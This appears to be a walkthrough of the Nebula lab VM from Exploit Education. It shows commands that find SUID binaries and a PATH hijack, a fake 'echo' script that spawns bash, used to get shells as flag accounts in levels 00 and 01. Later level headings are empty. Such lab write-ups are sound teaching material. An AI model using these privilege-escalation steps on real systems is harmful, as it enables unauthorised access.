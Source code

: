 # Exploit Education - Nebula

This is a walkthrough of [Nebula](http://exploit.education/nebula/) from [Exploit Education](http://exploit.education/).  

Nebula is a Linux virtual machine designed to demonstrate a number of weaknesses and vulnerabilities in Linux. 

## Setup
To run these tasks I use VirtualBox. The virtual machine has 1 GiByte of RAM, no virtual hard drive and network set to Host Only Adapter. The Nebula ISO image is attached and on startup the Live Image is selected from the boot menu. Once presented with a prompt login with username and password of 'nebula'. Then run `ifconfig` to get the IP address of the virtual machine.  

With the virtual machine running I log into each level using `ssh`:
```
$ ssh levelnn@NEBULA_VM_IP_ADDRESS
```
The username and password for each level take  the form 'levelnn' where nn is the number of the level. The aim of each level is to be able to run the `getflag` command to under the 'flagnn' account.

## Levels
[Level 00](#level-00)  
[Level 01](#level-01)  
[Level 02](#level-02)  
[Level 03](#level-03)  

### Level 00

[Level 00 Description](https://exploit.education/nebula/level-00/)  

First of all we use `find` to find any SUID applications that we can run.
```
level00@nebula:~$ find / -type f -perm -u+s 2>/dev/null
```
In amoungst the find result we see:
```
...
/rofs/bin/.../flag00
...
level00@nebula:~$ ls -al /rofs/bin/.../flag00 
-rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 /rofs/bin/.../flag00
```
Try and run the `flag00` application.
```
level00@nebula:~$ /rofs/bin/.../flag00 
Congrats, now run getflag to get your flag!
flag00@nebula:~$ 
```
The application has given us a shell as the flag00 user. We can now run `getflag`
```
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
```
### Level 01

[Level 01 Description](https://exploit.education/nebula/level-01/)

From inspection of the source code attached to the description we can see that the `flag01` program uses the `system()` function to call `echo` and write 'and now what?' to stdout. 
```
level01@nebula:~$ ls -al /home/flag01
total 13
drwxr-x--- 2 flag01 level01   92 2011-11-20 21:22 .
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ..
-rw-r--r-- 1 flag01 flag01   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag01 flag01  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01
-rw-r--r-- 1 flag01 flag01   675 2011-05-18 02:54 .profile
level01@nebula:~$ /home/flag01/flag01
and now what?
```
`flag01` is an SUID application therefore it will run any commands as the flag01 user. The absolute path of `echo` isn't set therefore we can create a fake echo command to give us a shell under the flag01 account.  

To do this we simply create a one line script in `/tmp/echo` which just runs `/bin/bash`. We give the script execute permissions and and /tmp to the PATH.
```
level01@nebula:~$ echo /bin/bash > /tmp/echo 
level01@nebula:~$ chmod +x /tmp/echo
level01@nebula:~$ export PATH=/tmp:$PATH
```
Now when we run `flag01` we drop into a shell under the flag01 account and we can run `getflag`.
```
level01@nebula:~$ /home/flag01/flag01 
flag01@nebula:~$ getflag
You have successfully executed getflag on a target account
```
### Level 02



### Level 03



